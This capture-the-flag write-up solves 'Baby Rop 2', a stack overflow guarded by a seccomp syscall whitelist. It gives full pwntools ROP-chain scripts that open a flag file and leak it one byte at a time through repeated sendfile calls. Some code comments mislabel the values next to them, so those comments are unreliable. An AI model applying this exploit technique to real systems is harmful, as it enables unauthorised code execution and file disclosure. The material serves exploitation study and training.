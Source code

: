 # Pwn - Baby Rop 2
- Solved by: @Elma
- Flag: **-UNKNOWN-**

## Writeup

This challenge is identical to that of Baby ROP, but introduces **seccomp** protections. This writeup assumes that the reader has read the writeup for Baby Rop 1.

### What's new?

```c
void setup_seccomp()
{
  int v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, SECCOMP_RET_ALLOW, SYS_read, 0);
  seccomp_rule_add(v1, SECCOMP_RET_ALLOW, SYS_write, 0);
  seccomp_rule_add(v1, SECCOMP_RET_ALLOW, SYS_open, 0);
  seccomp_rule_add(v1, SECCOMP_RET_ALLOW, SYS_close, 0);
  seccomp_rule_add(v1, SECCOMP_RET_ALLOW, SYS_sendfile, 0);
  seccomp_load(v1);
}
```

This function was introduced to the program, which is essentially a whitelist of syscalls that is allowed by the program. The rest of the program is identical to that of Baby Rop 1.

Our exploit previously used the `read`, `open`, `sendfile` syscalls, which are all whitelisted. This means that the seccomp filter does not matter to us, and we can reuse our exploit.

### Exploit

Although the program is mostly similar, the offsets for all our ROP gadgets has changed, so we will need to find the address of the gadgets again. Same goes for our writeable memory to store the `flag.txt` string.

```py
from pwn import *
context.binary = elf = ELF("./baby_rop2")

p = process("./baby_rop2")

pop_rdi = 0x00000000004038e3
pop_rsi = 0x0000000000402458
pop_rdx_rbx = 0x000000000048d02b
pop_rax = 0x0000000000456ee7
syscall = 0x00000000004227e6

#### Part 1: Read Syscall

p1 = b"A"*120
p1 += p64(pop_rax) + p64(0x0)                   # syscall_num = 0 (read)
p1 += p64(pop_rdi) + p64(0x0)                   # fd = stdin
p1 += p64(pop_rsi) + p64(0x4e1000)              # buf = 0x4c63b0
p1 += p64(pop_rdx_rbx) + p64(0x8) + p64(0x0)    # size = 0x8, RBX is junk
p1 += p64(syscall)                              # read "flag.txt" into .bss
p1 += p64(elf.sym.vuln)                         # loop back to vuln for second round of ROP chain since our input is not long enough to squeeze everything into one

#### Part 2: Open Syscall

p2 = b"A"*120
p2 += p64(pop_rax) + p64(0x2)           # syscall num = 2 (open)
p2 += p64(pop_rdi) + p64(0x4e1000)      # fname = 0x4c63b0
p2 += p64(pop_rsi) + p64(0x0)           # flags = 0 (open)
p2 += p64(pop_rdx_rbx) + p64(0x0) * 2   # mode = 0 (open)
p2 += p64(syscall)                      # open file and get new file descriptor for flag.txt
p2 += p64(elf.sym.vuln)                 # loop back to vuln for final rop chain

#### Part 3: Sendfile flag from flag.txt to stdout

p3 = b"A"*120
p3 += p64(pop_rax) + p64(40)            # syscall_num = 40 (sendfile)
p3 += p64(pop_rdi) + p64(1)             # out_fd = stdout (1)
p3 += p64(pop_rsi) + p64(3)             # in_fd = stdout (3)
p3 += p64(pop_rdx_rbx) + p64(0) * 2     # offset = 0
p3 += p64(syscall)                      # write flag to stdout

p.sendline(p1)
p.send(b"flag.txt")

p.sendline(p2)

p.sendline(p3)

p.interactive()
```

If we try to run this, we notice that only one character of the flag pops up. We can debug this by running it with GDB, and we will notice that our **count** argument is being set to `0x1`.

```
[+] Detected syscall (arch:X86, mode:64)
    sendfile(int out_fd, int in_fd, loff_t __user *offset, size_t count)
[+] Parameter            Register             Value
    RET                  $rax                 -
    _NR                  $rax                 0x28
    out_fd               $rdi                 0x0000000000000001
    in_fd                $rsi                 0x0000000000000003
    offset               $rdx                 0x0000000000000000
    count                $r10                 0x0000000000000001
```

This is rather troublesome, because it is difficult to find a gadget that is able to write `r10`. After racking my brain for some time, I realize that I can just keep calling `sendfile` syscall multiple times and it would print out the next single character of the flag.

How this works is that when we open a file, there will exist some file struct in kernelspace that contains metadata about this file. For every open file descriptor, there is a `start`, `cur`, and `end` pointer to the buffer of the file.

Intuitively, `start` and `end` points to the start and end of the contents of the file. The `cur` pointer will increment everytime we request to read the file. This means that everytime we call a `sendfile` syscall with size of `0x1`, it will read us one byte pointed by `cur`, and then increment the `cur` pointer by 1, so that next time when we read it again, we will be reading the next chracter.

With that knowledge, we can easily solve this by looping our last payload. Here is the final solve script.

```py
from pwn import *
context.binary = elf = ELF("./baby_rop2")

p = process("./baby_rop2")

pop_rdi = 0x00000000004038e3
pop_rsi = 0x0000000000402458
pop_rdx_rbx = 0x000000000048d02b
pop_rax = 0x0000000000456ee7
syscall = 0x00000000004227e6

#### Part 1: Read Syscall

p1 = b"A"*120
p1 += p64(pop_rax) + p64(0x0)                   # syscall_num = 0 (read)
p1 += p64(pop_rdi) + p64(0x0)                   # fd = stdin
p1 += p64(pop_rsi) + p64(0x4e1000)              # buf = 0x4c63b0
p1 += p64(pop_rdx_rbx) + p64(0x8) + p64(0x0)    # size = 0x8, RBX is junk
p1 += p64(syscall)                              # read "flag.txt" into .bss
p1 += p64(elf.sym.vuln)                         # loop back to vuln for second round of ROP chain since our input is not long enough to squeeze everything into one

#### Part 2: Open Syscall

p2 = b"A"*120
p2 += p64(pop_rax) + p64(0x2)           # syscall num = 2 (open)
p2 += p64(pop_rdi) + p64(0x4e1000)      # fname = 0x4c63b0
p2 += p64(pop_rsi) + p64(0x0)           # flags = 0 (open)
p2 += p64(pop_rdx_rbx) + p64(0x0) * 2   # mode = 0 (open)
p2 += p64(syscall)                      # open file and get new file descriptor for flag.txt
p2 += p64(elf.sym.vuln)                 # loop back to vuln for final rop chain

#### Part 3: Sendfile flag from flag.txt to stdout

p3 = b"A"*120
p3 += p64(pop_rax) + p64(40)            # syscall_num = 40 (sendfile)
p3 += p64(pop_rdi) + p64(1)             # out_fd = stdout (1)
p3 += p64(pop_rsi) + p64(3)             # in_fd = stdout (3)
p3 += p64(pop_rdx_rbx) + p64(0) * 2     # offset = 0
p3 += p64(syscall)                      # write flag to stdout
p3 += p64(elf.sym.vuln)                 # loop back to vuln to keep reading subsequent characters

p.sendline(p1)
p.send(b"flag.txt")

p.sendline(p2)

for i in range(50):
    p.sendline(p3)

p.interactive()
```
